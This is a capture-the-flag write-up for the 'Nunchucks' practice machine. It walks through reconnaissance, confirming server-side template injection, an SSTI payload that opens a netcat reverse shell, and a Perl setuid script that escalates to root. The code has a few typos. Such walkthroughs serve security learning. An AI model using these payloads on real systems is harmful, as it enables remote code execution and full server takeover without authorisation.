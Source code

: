 # Nunchucks Writeup
### Key Words: Server Side Template Injection(SSIF), Perl Paylaod 
First of of we will do a nmap on target machine. We find some open ports like 22 (ssh), 80 (http), 443 (https). After that we will run gobuster on the domain.

In the results we will find a subdomain:

```
store.nunchucks.htb
```

This is a static page which is allows us to enter a email only.

There is the possibility of Server Side Template Injection(SSTI) here. 

<aside>
💡 Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.

  
</aside>


We tried out an email like **{{9*9}}@devil.com**

In result I get **81@devil.com** that ensured that there is a SSIF.

Now what is our next approach?

Yes, We intercept the request in burp suite and then we will upload a reverse shell payload in the email parameter and try to connect a shell with the machine.

```
Payload: {{range.constructor("\return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo/tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc #ip #port >/tmp/f')\")()}}
```

Now we got a shell, after stabilizing the shell we will go inside ‘david’ folder and got our **user.txt** flag.

Here we saw a perl file and we can the access of this file. Now we know that this machine is running perl so we make a payload.

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash"
```

After running this we will payload we can see that now we have the root privileges and we are root now.

Now we simply so to /root folder and get the root.txt flag.

Hope you like this writeup, if you like it please show some love by follow me on:

GitHub: [https://github.com/mvaibhavm09](https://github.com/mvaibhavm09)

LinkedIn: [https://linkedin.com/in/mvaibhavm09](https://linkedin.com/in/mvaibhavm09)

Twitter:  [https://twitter.com/mvaibhavm09](https://twitter.com/mvaibhavm09) 

Happy Hacking :)
